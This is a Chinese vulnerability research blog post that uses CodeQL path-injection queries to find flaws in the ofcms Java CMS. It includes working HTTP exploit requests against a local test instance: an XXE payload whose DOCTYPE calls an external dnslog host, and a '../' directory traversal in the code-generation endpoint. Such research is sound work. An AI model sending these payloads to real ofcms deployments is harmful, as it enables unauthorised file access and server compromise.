# 使用codeql 寻找 ofcms 的新漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/16877  
> **文章ID**: 16877

---

使用codeql 寻找 ofcms 的新漏洞

## 前言

上次不是分析了 ofcms 的目录穿越那个漏洞吗？那天因为没什么心情看其他点，就没有去看，今天有时间了来看看，那些获得的点是怎么个事

## 寻找总览

```
/** Provides dataflow configurations for tainted path queries. */

import java
import semmle.code.java.frameworks.Networking
import semmle.code.java.dataflow.DataFlow
import semmle.code.java.dataflow.FlowSources
private import semmle.code.java.dataflow.ExternalFlow
import semmle.code.java.security.PathSanitizer
private import semmle.code.java.security.Sanitizers

/** A sink for tainted path flow configurations. */
abstract class TaintedPathSink extends DataFlow::Node { }

private class DefaultTaintedPathSink extends TaintedPathSink {
  DefaultTaintedPathSink() { sinkNode(this, "path-injection") }
}

/**
 * A unit class for adding additional taint steps.
 *
 * Extend this class to add additional taint steps that should apply to tainted path flow configurations.
 */
class TaintedPathAdditionalTaintStep extends Unit {
  abstract predicate step(DataFlow::Node n1, DataFlow::Node n2);
}

private class DefaultTaintedPathAdditionalTaintStep extends TaintedPathAdditionalTaintStep {
  override predicate step(DataFlow::Node n1, DataFlow::Node n2) {
    exists(Argument a |
      a = n1.asExpr() and
      a.getCall() = n2.asExpr() and
      a = any(TaintPreservingUriCtorParam tpp).getAnArgument()
    )
  }
}

private class TaintPreservingUriCtorParam extends Parameter {
  TaintPreservingUriCtorParam() {
    exists(Constructor ctor, int idx, int nParams |
      ctor.getDeclaringType() instanceof TypeUri and
      this = ctor.getParameter(idx) and
      nParams = ctor.getNumberOfParameters()
    |
      // URI(String scheme, String ssp, String fragment)
      idx = 1 and nParams = 3
      or
      // URI(String scheme, String host, String path, String fragment)
      idx = [1, 2] and nParams = 4
      or
      // URI(String scheme, String authority, String path, String query, String fragment)
      idx = 2 and nParams = 5
      or
      // URI(String scheme, String userInfo, String host, int port, String path, String query, String fragment)
      idx = 4 and nParams = 7
    )
  }
}

/**
 * A taint-tracking configuration for tracking flow from remote sources to the creation of a path.
 */
module TaintedPathConfig implements DataFlow::ConfigSig {
  predicate isSource(DataFlow::Node source) { source instanceof ThreatModelFlowSource }

  predicate isSink(DataFlow::Node sink) { sink instanceof TaintedPathSink }

  predicate isBarrier(DataFlow::Node sanitizer) {
    sanitizer instanceof SimpleTypeSanitizer or
    sanitizer instanceof PathInjectionSanitizer
  }

  predicate isAdditionalFlowStep(DataFlow::Node n1, DataFlow::Node n2) {
    any(TaintedPathAdditionalTaintStep s).step(n1, n2)
  }
}

/** Tracks flow from remote sources to the creation of a path. */
module TaintedPathFlow = TaintTracking::Global<TaintedPathConfig>;

/**
 * A taint-tracking configuration for tracking flow from local user input to the creation of a path.
 */
deprecated module TaintedPathLocalConfig implements DataFlow::ConfigSig {
  predicate isSource(DataFlow::Node source) { source instanceof LocalUserInput }

  predicate isSink(DataFlow::Node sink) { sink instanceof TaintedPathSink }

  predicate isBarrier(DataFlow::Node sanitizer) {
    sanitizer instanceof SimpleTypeSanitizer or
    sanitizer instanceof PathInjectionSanitizer
  }

  predicate isAdditionalFlowStep(DataFlow::Node n1, DataFlow::Node n2) {
    any(TaintedPathAdditionalTaintStep s).step(n1, n2)
  }
}

/**
 * DEPRECATED: Use `TaintedPathFlow` instead and configure threat model sources to include `local`.
 *
 * Tracks flow from local user input to the creation of a path.
 */
deprecated module TaintedPathLocalFlow = TaintTracking::Global<TaintedPathLocalConfig>;

```


一个一个分析

## expReport

我们首先先看 sink 点是否可以利用

```
public void expReport() {
        HttpServletResponse response = getResponse();
        Map<String, Object> hm = getParamsMap();
        String jrxmlFileName = (String) hm.get("j");
        jrxmlFileName = "/WEB-INF/jrxml/" + jrxmlFileName + ".jrxml";
        File file = new File(PathKit.getWebRootPath() + jrxmlFileName);
        String fileName = (String) hm.get("reportName");
        log.info("报表文件名[{}]", file.getPath());
         OutputStream out = null;
        try {
            DataSource dataSource = (DataSource) SysBeans
                    .getBean("dataSourceProxy");
            JasperPrint jprint = (JasperPrint) JasperFillManager.fillReport(
                    JasperCompileManager
                            .compileReport(new FileInputStream(file)), hm,
                    dataSource.getConnection());
            JRXlsExporter exporter = new JRXlsExporter();
            response.setHeader("Content-Disposition", "attachment;filename="
                    + URLEncoder.encode(fileName, "utf-8") + ".xls");
            response.setContentType("application/xls");
            response.setCharacterEncoding("UTF-8");
            JasperReportsUtils.render(exporter, jprint,
                    response.getOutputStream());
            response.setStatus(HttpServletResponse.SC_OK);
             out=response.getOutputStream();
             out.flush();
             out.close();
        } catch (Exception e) {
            e.printStackTrace();
        }finally{
            try {
                out.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        
        renderNull();
//		renderJson();
    }
```

简单看了一下就是导出报表 jrxmlFileName 是我们可以控制的，但是有固定后缀

先看看在页面上是在什么位置



然后抓包调试研究一下

```
GET /ofcms_admin_war/admin/reprot/expReport.html?j=employee&reportName=20160813 HTTP/1.1
Host: localhost:7788
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost:7788/ofcms_admin_war/admin/f.html?p=system/user/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=CA3ED0CE066EE5852B1EA8C499F18EC7
Connection: keep-alive


```

确实是可以控制的，但是只能带进去解析，我们的上传下载等组合拳不能使用

但是会解析我们的文件，我们跟进，看看有没有防护

```
public static JasperReport compileReport(InputStream inputStream) throws JRException {
    return getDefaultInstance().compile(inputStream);
}
```

跟进 compile

```
public JasperReport compile(InputStream inputStream) throws JRException {
    JasperDesign jasperDesign = JRXmlLoader.load(inputStream);
    return this.compile(jasperDesign);
}
```

```
public static JasperDesign load(InputStream is) throws JRException {
    return load(DefaultJasperReportsContext.getInstance(), (InputStream)is);
}
```

可以看到没有任何的防护，我们尝试 xxe

这里首先需要实现写入文件，内容可以控制，而且可以写到任意目录

这个不就是对味了吗，对上我们上篇文章的那个目录穿越漏洞

内容如下

```
<?xml version="1.0" encoding="utf-8"?>   <!DOCTYPE data SYSTEM "http://d091ccfb.log.dnslog.sbs." [   <!ELEMENT data (#PCDATA)>   ]> <data>7</data>

```

我名字是 test

发包

```
GET /ofcms_admin_war/admin/reprot/expReport.html?j=test&reportName=20160813 HTTP/1.1
Host: localhost:7788
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost:7788/ofcms_admin_war/admin/f.html?p=system/user/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=CA3ED0CE066EE5852B1EA8C499F18EC7
Connection: keep-alive


```



然后我们查看 dns 的记录



## writeString

这个就是我们上一次分析的目录穿越那个

这里不说了

## createSql

首先来到这个方法

```
public static void createSql(String tableName, String moduleName,
        String fuctionName, List<Record> columnList) {

    try {

        Map<String, Object> params = new HashMap<String, Object>();
        // 获取主键
        String tableKey = null;
        String tableKeyComment = null;
        for (Record r : columnList) {
            tableKey = r.get("column_key");
            if (StringUtils.isNotBlank(tableKey)
                    && "PRI".equalsIgnoreCase(tableKey)) {
                tableKey = r.get("column_name");
                tableKeyComment = r.get("column_comment");
                break;
            }
        }
        // 没有主键用第一个字段
        if (StringUtils.isNotBlank(tableKey)) {
            tableKey = columnList.get(0).get("column_name");
            tableKeyComment = columnList.get(0).get("column_comment");
        }
        params.put("table_name", tableName);
        params.put("module_name", moduleName);
        params.put("column_list", columnList);
        params.put("fuction_name", fuctionName);
        params.put("webroot", JFinal.me().getContextPath());
        params.put("shiro", new ShiroTags());
        params.put("table_key", tableKey);
        params.put("table_key_comment", tableKeyComment);

        List<GreatePathPojo> list = getTemplates(moduleName, fuctionName);
        for (GreatePathPojo gre : list) {
            File file = new File(gre.getTargetPath());
            file.createNewFile();
            TempleteUtile.process(gre.getTemplatePath(), params, file);
            System.out
                    .println("code create success " + gre.getTargetPath());
        }
        //增加init.sql
        String sqlContent = TempleteUtile.process("init.sql.html", params);
        fileWriter(basePath + "/resources/conf/sql/init.sql",sqlContent);
    } catch (IOException | TemplateException e) {
        e.printStackTrace();
    }

}
```

sink 点是在 file.createNewFile();

可以创建文件吧，这个代码整体理解下来就是用于根据给定的表名、模块名、功能名和列信息生成 SQL 相关的代码文件，并执行文件创建和模板填充的操作。

我们抓个包调试分析一下



```
POST /ofcms_admin_war/admin/system/generate/code.json?sqlid= HTTP/1.1
Host: localhost:7788
Content-Length: 163
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:7788
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:7788/ofcms_admin_war/admin/f.html?p=system/generate/edit.html&table_name=of_cms_access&_fsUuid=7230fdc2-9d34-4eb5-9ac2-a73c9be271fc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=CA3ED0CE066EE5852B1EA8C499F18EC7
Connection: keep-alive

table_name=of_cms_access&table_comment=%E8%AE%BF%E9%97%AE%E8%AE%B0%E5%BD%95%E8%A1%A8&engine=InnoDB&module_name=a&fuction_name=a&create_time=2025-01-18+16%3A13%3A18
```

参数我们都是可以控制的

一开始会在 source 点在 code 方法

  
全是从外部我们直接输入的

  
成功传入了 createSql

但是第一次创建文件是在  


跟进 getTemplates 方法

```
public static List<GreatePathPojo> getTemplates(String moduleName,
        String fuctionName) {
    List<GreatePathPojo> templates = new ArrayList<GreatePathPojo>();

    // 创建目录
    File sql = new File(basePath + "/resources/conf/sql/" + moduleName);
    if (!sql.exists()) {
        sql.mkdirs();
    }
    // sql
    templates.add(new GreatePathPojo("comn.sql.html", basePath
            + "/resources/conf/sql/" + moduleName + "/" + fuctionName
            + ".sql"));
    // 创建目录
    File page = new File(basePath + "/webapp/WEB-INF/page/admin/" + moduleName
            + "/" + fuctionName);
    if (!page.exists()) {
        page.mkdirs();
    }
    // 首页
    templates.add(new GreatePathPojo("index.html", basePath
            + "/webapp/WEB-INF/page/admin/" + moduleName + "/" + fuctionName
            + "/index.html"));
    // 增加
    templates.add(new GreatePathPojo("add.html", basePath
            + "/webapp/WEB-INF/page/admin/" + moduleName + "/" + fuctionName
            + "/add.html"));
    // 编辑
    templates.add(new GreatePathPojo("edit.html", basePath
            + "/webapp/WEB-INF/page/admin/" + moduleName + "/" + fuctionName
            + "/edit.html"));
    return templates;
}
```

首先是

```
File sql = new File(basePath + "/resources/conf/sql/" + moduleName);
if (!sql.exists()) {
    sql.mkdirs();
}
```

modulename 可以控制，看看可不可以使用../或者/来创建其他级别的目录







发现是可以的



然后我们尝试一下../这种能不能跳回上级目录

exp

```
POST /ofcms_admin_war/admin/system/generate/code.json?sqlid= HTTP/1.1
Host: localhost:7788
Content-Length: 167
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:7788
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:7788/ofcms_admin_war/admin/f.html?p=system/generate/edit.html&table_name=of_cms_access&_fsUuid=7230fdc2-9d34-4eb5-9ac2-a73c9be271fc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=CA3ED0CE066EE5852B1EA8C499F18EC7
Connection: keep-alive

table_name=of_cms_access&table_comment=%E8%AE%BF%E9%97%AE%E8%AE%B0%E5%BD%95%E8%A1%A8&engine=InnoDB&module_name=../../../a&fuction_name=a&create_time=2025-01-18+16%3A13%3A18
```





可以看到目录成功穿越了

然后在下面的代码还会创建目录

```
File page = new File(basePath + "/webapp/WEB-INF/page/admin/" + moduleName
        + "/" + fuctionName);
if (!page.exists()) {
    page.mkdirs();
}
```

这里我看到没有后缀的限制，看下能不能创建一个文件

exp

```
POST /ofcms_admin_war/admin/system/generate/code.json?sqlid= HTTP/1.1
Host: localhost:7788
Content-Length: 172
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:7788
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:7788/ofcms_admin_war/admin/f.html?p=system/generate/edit.html&table_name=of_cms_access&_fsUuid=7230fdc2-9d34-4eb5-9ac2-a73c9be271fc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=CA3ED0CE066EE5852B1EA8C499F18EC7
Connection: keep-alive

table_name=of_cms_access&table_comment=%E8%AE%BF%E9%97%AE%E8%AE%B0%E5%BD%95%E8%A1%A8&engine=InnoDB&module_name=a&fuction_name=a.txt&create_time=2025-01-18+16%3A13%3A18
```



然后我们看到  


不可以

emmm，利用空间很小，因为能够创建文件的限制了后缀

然后后面的限制很大



## process

一样的分析步骤

先看看代码

```
public static void process(String templatefile, Map<String, Object> param,
        File file) throws IOException, TemplateException {
    Template template = TempleteUtile.getTemplate(templatefile);
    // FileWriter sw = new FileWriter(file);
    Writer sw = new BufferedWriter(new OutputStreamWriter(
            new FileOutputStream(file), "UTF-8"));
    template.process(param, sw);
    sw.flush();
    sw.close();
}
```



查找调用



我们仔细看参数

需要控制 file


可以看到这个还是一样不可以控制

还有



